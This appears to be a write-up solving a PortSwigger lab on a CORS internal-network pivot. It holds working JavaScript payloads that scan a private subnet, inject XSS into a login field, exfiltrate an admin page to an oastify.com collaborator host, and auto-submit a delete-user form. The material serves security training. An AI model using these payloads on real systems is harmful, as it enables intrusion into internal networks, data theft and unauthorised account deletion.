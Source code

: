 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7848993f-c9e0-405a-bc09-faad4a12b113)

## Overview :

#### Intranets and CORS without credentials

Most CORS attacks rely on the presence of the response header:

```
Access-Control-Allow-Credentials: true
```

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common situation where an attacker can't access a website directly: when it's part of an organization's intranet, and located within private IP address space. Internal websites are often held to a lower security standard than external sites, enabling attackers to find vulnerabilities and gain further access. For example, a cross-origin request within a private network may be as follows:

```
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

And the server responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

The **application server is trusting resource requests from any origin without credentials. If users within the private IP address space access the public internet then a CORS-based attack can be performed from the external site that uses the victim's browser as a proxy for accessing intranet resources**. 

## Solution :

### Step 1 - Scan the localnetwork for the endpoint :

Use the following javascript code to scan the local network for the endpoint.

> Local network - `192.168.0.0/24`, port `8080`

```javascript
<script>
var q = [], collaboratorURL = 'http://egyk9bi1e8w0sehd0rv11l8gf7lx9m.oastify.com';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

Store & Deliver the exploit to victim. Now if we go to our collaborator server, we can see that there are few DNS & HTTP requests been made to our server.

Inpecting one of the HTTP requests reveals the internal IP address with port 8080 which has the endpoint. - `192.168.0.226:8080`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a7af41f1-271e-4c26-b73b-29ec6f47964e)


### Step 2 - Test username parameter for XSS :


Now we should probe the username field for an XSS vulnerability. 

> Update the ip & collaborator server address in the below script.

```javascript
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://192.168.0.226:8080", "http://axbi4rtdl0ahqci3jk0yilma81es2h.oastify.com");
</script>
```

Once the exploit is run successfully, we sould see a Collaborator interaction with `foundXSS=1` in the URL.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9e947346-8a81-4331-ab75-c6762df67510)


### Step 3 - Find source code of admin page



> Update IP,port number & collaborator address

```javascript
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://192.168.0.226:8080", "http://2illbnma2eneorqiyhtdq5ady44usj.oastify.com");
</script>
```

Store & Deliver the exploit. If the exploit is successfull, we will get the source code of the admin page.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/df57aab9-ab7c-40eb-b806-ad492bf20d6a)


URL decoding it gives us the source code.

```html

        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class="academyLabBanner">
                <div class="container">
                    <div class="logo"></div>
                        <div class="title-container">
                            <h2>CORS vulnerability with internal network pivot attack</h2>
                            <a id="exploit-link" class="button" target="_blank" href="http://exploit-0a9600460324ec37844eef07012600ae.exploit-server.net">Go to exploit server</a>
                            <a class="link-back" href="https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack">
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 28 30" enable-background="new 0 0 28 30" xml:space="preserve" title="back-arrow">
                                    <g>
                                        <polygon points="1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15"></polygon>
                                        <polygon points="14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15"></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class="widgetcontainer-lab-status is-notsolved">
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class="lab-status-icon"></span>
                        </div>
                    </div>
                </section></div>
            
        
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                        <input required="" type="hidden" name="csrf" value="1KcxoeMy9RMMAF99jWL5LBLjnR4UC8on">
                        <label>Username</label>
                        <input required="" type="text" name="username">
                        <button class="button" type="submit">Delete user</button>
                    </form>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
```

### Step 4 -

From the source code, we can see that there's a form that allows us to delete a user.

```html
<form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
    <input required="" type="hidden" name="csrf" value="1KcxoeMy9RMMAF99jWL5LBLjnR4UC8on">
    <label>Username</label>
    <input required="" type="text" name="username">
    <button class="button" type="submit">Delete user</button>
 </form>
```

So we create a javascript code that submits the form to delete carlos by injecting an iframe pointing to the /admin page. 

> Update IP, port & collaborator address.

```javascript
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://192.168.0.226:8080");
</script>
```
If we submit this form in our exploit server & click Deliver exploit to victim. 

The above code will fetch the internal ip address (http://192.168.0.226:8080) at the url `/admin?username=carlos`delete the user carlos. & Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ce7797b1-9a55-4c28-bee3-62b3dab011e7)





